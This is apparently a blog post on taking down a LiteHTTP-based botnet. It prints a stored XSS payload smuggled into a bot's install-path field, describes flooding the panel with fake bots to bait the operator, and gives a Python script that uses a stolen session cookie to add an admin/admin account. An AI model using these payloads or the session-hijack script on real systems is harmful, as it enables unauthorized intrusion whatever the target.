








Hey guys, welcome to my new blog!
Today, I'll show you how I managed to take down a small botnet using reverse engineering, XSS XSSation, and some creative scripting.
Discovery: AnubisHTTP
A few days ago, I noticed someone selling a new loader called AnubisHTTP, which is based on LiteHTTP.


What is LiteHTTP?
LiteHTTP is an HTTP bot written in C# for .NET 2.0, originally developed 7-9 years ago. The developer of AnubisHTTP used it as the base for their loader, with minimal improvements.
Finding the Binary
To find a binary for this new loader, I turned to any.run. Searching for "anubis" yielded no results, but "litehttp" gave me a hit:
- any.run Task
- http://87.120.126.5/VmCetSC7/login - Panel URL
Reversing the Binary
Using the binary from any.run, I deobfuscated it with ConfuserEx2_Deobfuscate_Tools in about 5 minutes. Examining the code revealed it was almost identical to LiteHTTP, including the config file:

The configuration revealed the key (string_2) and host (string_0), matching the panel URL.
Data Flow
The bot sent data to http://87.120.126.5/VmCetSC7/page.php, including hardware ID, IP address, and other information.
LiteHTTP's GitHub repository provided details about page.php:

The PHP code sanitized most inputs but left $inpat vulnerable to injection. This was my entry point for an XSS XSS.
Testing the XSS
I set up LiteHTTP locally on VMware for testing. To XSS installation_path, I injected the payload:
C:\\Windows\\32.exe<script>alert('1')</script>The XSS triggered successfully when the IP address was clicked in the panel's UI.
Triggering the XSS
The next challenge was ensuring the threat actor clicked my malicious "bot." I flooded the botnet with 100 fake connections, which guaranteed their curiosity would lead them to click.

Now, I just needed to wait and hope that the XSS would work on the most likely identical Anubis Panel. And voila, six hours later, we got some results!
Gaining Control
Using the stolen PHPSESSID from the XSS, I logged into the admin panel. Then, I wrote this Python script to create a new admin account directly:

import requests
import argparse
def create_user(base_url, php_sessid):
target_url = f"{base_url}/index.php?p=users"
headers = {
"Content-Type": "application/x-www-form-urlencoded",
"Origin": base_url,
"Referer": f"{base_url}/index.php?p=users",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0 Config/100.2.9281.82",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
"Connection": "keep-alive",
"Upgrade-Insecure-Requests": "1"
}
cookies = {
"PHPSESSID": php_sessid
}
data = {
"username": "admin",
"password": "admin",
"permissions": "3",
"doAdd": "Add User"
}
try:
print(f"[+] Sending POST request to: {target_url}")
print("[+] Adding user with username: 'admin' and password: 'admin'")
response = requests.post(target_url, headers=headers, cookies=cookies, data=data)
if response.status_code == 200:
print("[+] Request successful.")
else:
print(f"[-] Request failed. HTTP Status Code: {response.status_code}")
except Exception as e:
print(f"[-] An error occurred: {e}")
if __name__ == "__main__":
parser = argparse.ArgumentParser(description="Send POST request to create a user.")
parser.add_argument("base_url", help="Base URL (e.g., http://127.0.0.1/Panel)")
parser.add_argument("sessid", help="Valid PHPSESSID value")
args = parser.parse_args()
create_user(args.base_url, args.sessid)Botnet Cleanup
Finally, I used my new admin account to push an uninstall task across all infected machines. Here are the results:


Another botnet down!